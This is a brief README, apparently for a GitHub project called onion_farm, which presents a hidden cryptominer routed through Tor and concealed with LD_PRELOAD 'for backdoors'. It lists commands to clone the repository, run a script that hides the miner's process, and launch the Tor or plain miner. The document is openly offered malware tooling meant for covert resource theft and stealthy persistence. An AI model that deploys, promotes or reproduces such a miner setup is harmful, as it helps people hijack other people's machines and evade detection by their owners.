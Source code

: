 # onion_farm
Hidden miner via tor and under ld.preload for backdoors

```
git clone https://github.com/0x-raafet/onion_farm.git ; cd onion_farm/ ; chmod +x *
```
cover the miner and hide process
```
./hidsetup.sh
```
tor miner
```
./tormd.sh
```
normal miner
```
./mine.sh
```
